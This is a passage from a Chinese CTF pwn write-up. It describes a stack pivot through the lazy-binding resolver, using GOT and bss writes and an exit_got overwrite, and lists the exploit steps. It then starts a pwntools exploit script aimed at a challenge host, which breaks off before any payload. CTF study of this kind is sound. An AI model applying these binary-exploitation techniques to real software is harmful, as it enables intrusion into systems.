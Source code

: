众所周知，延迟绑定有这样一个操作

![image-20250211175200116](https://webimage.lufiende.work/1739267525560.png)

`push` 后跳转，简直是栈迁移的绝佳位置，意味着我们只要向 `0x404008` 写入 `bss` 地址，并在 `0x404010` 写入 `pop rbp, ret` 就可以迁移

最后把 `exit_got` 写入 `0x401020` 就可以了

那我们思路就清晰了

1. 泄露 `libc`: 找个数据段的 `stdin` 即可
2. 修改 `exit_got` : 方便无限写
3. 写入 `read` 链子，最后把 `exit_got` 写入 `0x401020` 
4. 二次读构建

#### 2-2 注意事项

修改单位是 4 位，也就是 `p32()`

#### 2-3 exp

```python
#!/usr/bin/env python

'''
    time: 2025-02-09 13:11:56
'''

from pwn import *
from LibcSearcher import *
import ctypes

filename = "pwn_patched"
libcname = "/home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/libc6_2.35-0ubuntu3.8_amd64/lib/x86_64-linux-gnu/libc.so.6"
host = "39.106.16.204"
port = 47962
filearch = 'amd64'
isAttach = 0
context.log_level = 'debug'
context.os = 'linux'
context.arch = filearch
context.terminal = ["/mnt/c/Windows/System32/cmd.exe", '/c', 'start', 'wsl.exe']

elf = context.binary = ELF(filename)
if libcname:
    libc = ELF(libcname)

gdbscript = '''
b *0x401571
set debug-file-directory /home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/libc6-dbg_2.35-0ubuntu3.8_amd64/usr/lib/debug
set directories /home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/glibc-source_2.35-0ubuntu3.8_all/usr/src/glibc/glibc-2.35
'''

processarg = {}

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = gdbscript, env=processarg)
    elif args.REMOTE:
        return remote(host, port)
    elif args.ATTACH:
        global isAttach
        isAttach = 1
```